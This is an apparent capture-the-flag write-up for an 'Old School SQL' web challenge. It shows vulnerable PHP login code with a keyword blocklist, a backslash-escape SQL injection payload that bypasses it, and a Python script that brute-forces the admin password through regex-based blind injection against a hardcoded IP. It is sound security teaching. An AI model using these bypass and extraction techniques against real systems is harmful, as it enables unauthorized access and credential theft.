 # OLD SCHOOL SQL (web 150)
You can get the source-code from [here](https://github.com/chsantoshkumar211/CTFs/tree/master/bsides-delhi/old-school-sql).

Source code : 

```PHP
<?php 
include "./config.php";
include "./flag.php";
error_reporting(0);

$black_list = "/admin|guest|limit|by|substr|mid|like|or|char|union|select|greatest|%00|\'|";
$black_list .= "=|_| |in|<|>|-|chal|_|\.|\(\)|#|and|if|database|where|concat|insert|having|sleep/i";
if(preg_match($black_list, $_GET['user'])) exit(":P"); 
if(preg_match($black_list, $_GET['pw'])) exit(":P"); 


$query="select user from chal where user='$_GET[user]' and pw='$_GET[pw]'"; 

$result = mysql_query($query);
$result = mysql_fetch_array($result);
$admin_pass = mysql_fetch_array(mysql_query("select pw from chal where user='admin'"));
echo "<h1>query : <strong><b>{$query}</b></strong><br></h1>";
if($result['user']) echo "<h2>Welcome {$result['user']}</h2>"; 
if(($admin_pass['pw'])&&($admin_pass['pw'] === $_GET['pw'])){
    echo $flag;
}

highlight_file(__FILE__); 

?>
```

On seeing the source code we can get to know that the ```'``` is blocked but we can bypass the query as follows 

```PHP
select user from chal where user='\' and pw='%a0||%a01;%00'
```
Now to get the flag we need to dump the admin password for that we are going to use regex. Here is a python script for that.

```python
import requests
url="http://35.200.215.237?user=\&pw=%0a||%0a(user%0aregexp%0a0x61646d696e%0a%26%26%0a(pw)%0aregexp%0a\"^"
pay="1234567890"
passwd=""
for i in range(1,10):
    corr=0
    for j in pay:
        query=url+passwd+j+"\");%00"
        print(query)
        http=requests.get(query)
        if "Welcome admin" in http.text:
            passwd=passwd+j
            print(passwd)
            corr+=1
    if corr==0:
        break
print("Final pw : "+passwd)
```

On dumping the admins password and submitting the pw=17292115 we get the flag : 
```flag{sQ1_inj3c7i0n_i5_v3ry_3asy}```

***Interesting*** ***fact*** : the 1729 from admins password represents the Ramanujan number about which you can learn [here](https://en.wikipedia.org/wiki/1729_(number). 
